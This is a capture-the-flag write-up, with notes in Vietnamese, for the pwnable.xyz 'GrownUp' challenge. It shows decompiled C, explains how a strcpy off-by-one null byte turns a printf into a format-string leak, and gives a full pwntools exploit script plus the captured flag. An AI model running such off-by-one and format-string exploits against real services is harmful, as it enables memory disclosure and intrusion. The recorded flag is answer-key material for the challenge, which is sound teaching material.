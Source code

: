 # Pwnable.xyz GrownUp
## Analysis
```
void setup(void)
{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  signal(0xe,handler);
  usr._128_8_ = 0x601168;
  usr[136] = '%';
  usr[137] = 's';
  usr[138] = '\n';
  alarm(0x3c);
  return;
}
```
```
undefined8 main(void)
{
  ssize_t size;
  char *name;
  long in_FS_OFFSET;
  undefined8 answer;
  undefined8 longVal;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  answer = 0;
  longVal = 0;
  printf("Are you 18 years or older? [y/N]: ");
  size = read(0,&answer,0x10);
  *(undefined *)((long)&answer + (long)((int)size + -1)) = 0;
  if (((char)answer == 'y') || ((char)answer == 'Y')) {
    name = (char *)malloc(132);
    printf("Name: ");
    read(0,name,128);
    strcpy(usr,name);
    printf("Welcome ");
    printf((char *)usr._128_8_,usr);
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
Vài điểm cần chú ý:  
+ Chương trình kiểm tra yes/no dựa vào chữ cái đầu tiên trong answer có là y hay không, 15 byte tiếp theo là gì cũng không ảnh hưởng
+ Giá trị flag nằm ở địa chỉ 0x601080
+ Có lỗi off by one khi thực thi strcpy(usr,name) (thêm 1 byte null) khi nhập đủ 128 byte, làm giá trị usr.\_128_8_ từ 0x601168 thành 0x601100 -> tận dụng lỗi format string
## Solution
```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./GrownUpRedist", checksec = False)
con = remote("svc.pwnable.xyz", 30004)

input()
con.sendlineafter(b"older? [y/N]: ", b"yaaaaaaa\x80\x10\x60")
payload = b"A"*32 + b"%9$s"
payload = payload.ljust(128, b"B")
con.sendlineafter(b"Name: ", payload)

con.interactive()
```
## Flag
```
FLAG{should_have_named_it_babyfsb}
```